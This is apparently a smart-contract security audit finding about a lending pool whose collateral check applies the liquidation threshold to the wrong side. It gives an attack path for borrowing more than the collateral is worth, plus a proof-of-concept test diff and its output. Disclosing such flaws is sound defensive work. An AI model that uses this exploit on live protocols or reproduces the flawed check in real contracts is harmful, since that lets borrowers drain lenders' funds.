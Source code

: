 ```diff
-  344:                  if (collateralValue < userTotalDebt.percentMul(liquidationThreshold)) {
+  344:                  if (collateralValue.percentMul(liquidationThreshold) < userTotalDebt) {
   345:                      revert NotEnoughCollateralToBorrow();
   346:                  }
   347:          
```

Attack Path:
- Deposit NFT worth 100
- Borrow an amount of 120
- Protocol thinks due to faulty logic that `100 < 120 * 80%` or `100 < 96` is `false` so things are okay and does not revert.
- Attacker now has profit of `20` even after defaulting on the loan.

## Impact
User can leave the protocol underwater and extract profit.

## Proof of Concept
Modify this [existing test](https://github.com/Cyfrin/2025-02-raac/blob/main/test/unit/core/pools/LendingPool/LendingPool.test.js#L255) and run to see it pass, even though it should have failed with error `NotEnoughCollateralToBorrow`:
```diff
    it("should allow user to borrow crvUSD using NFT collateral", async function () {
-       const borrowAmount = ethers.parseEther("50");
+       const borrowAmount = ethers.parseEther("120");

        await lendingPool.connect(user1).borrow(borrowAmount);
    
        const crvUSDBalance = await crvusd.balanceOf(user1.address);
-       expect(crvUSDBalance).to.equal(ethers.parseEther("1050"));
+       expect(crvUSDBalance).to.equal(ethers.parseEther("1120"));
    
        const debtBalance = await debtToken.balanceOf(user1.address);

        expect(debtBalance).to.gte(borrowAmount);
+
+       console.log("liquidationThreshold in bips =", await lendingPool.liquidationThreshold(), "\n");
+       console.log("debtBalance           =", debtBalance);
+       console.log("collateralValue       =", await lendingPool.getUserCollateralValue(user1.address));
    });
```
<br>

Output:
```js
  LendingPool
    Borrow and Repay
liquidationThreshold in bips = 8000n 

debtBalance           = 120000000000000000000n
collateralValue       = 100000000000000000000n
      ✔ should allow user to borrow crvUSD using NFT collateral


  1 passing (8s)
```

